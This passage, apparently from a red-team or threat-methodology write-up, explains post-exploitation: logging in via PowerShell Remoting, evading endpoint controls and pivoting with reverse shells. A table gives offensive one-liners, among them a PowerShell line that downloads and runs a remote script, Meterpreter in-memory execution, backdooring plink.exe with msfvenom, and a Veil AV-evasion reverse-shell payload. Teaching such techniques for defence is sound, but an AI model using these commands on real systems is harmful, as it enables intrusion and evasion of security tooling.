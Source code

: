 Then start a container and log into the target machine via PowerShell Remoting:

![](images/Exploring%20Threat%20Methodologies/image003.png)<br><br>

### Endpoint Security

Techniques are needed to deal with various endpoint controls such as EDRs, AntiVirus, process logging, command line logging, etc.

|||
|-|-|
|In Memory|Meterpreter:  `execute -H -m -d calc.exe -f c:\\Windows\\System32\\whoami.exe -a "/all"` <br> PowerShell: `IEX (New-Object Net.WebClient).DownloadString("https://$ip/script.ps1")` <br> Empire:      `[>] Module is not opsec safe, run? [y/N]`  |
|On Disk|  msfvenom: `msfvenom -x plink.exe -op plink_bd.exe` <br> [Veil](https://github.com/Veil-Framework/Veil): `./Veil.py -t Evasion -p go/meterpreter/rev_tcp.py --ip 127.0.0.1 --port 4444` <br> [TheShellterProject](https://www.shellterproject.com/)|


### Network Security

Network security controls can limit options for accessing services on the target host. A reverse shell used with port forwarding will allow an adversary to reach ports and services denied by firewalls:

![](images/Exploring%20Threat%20Methodologies/image078.png)<br><br>

Many post-exploitation tools provide this capability for accomplishing remote logins, file transfers, and pivoting even when network controls are in place.

## Summary
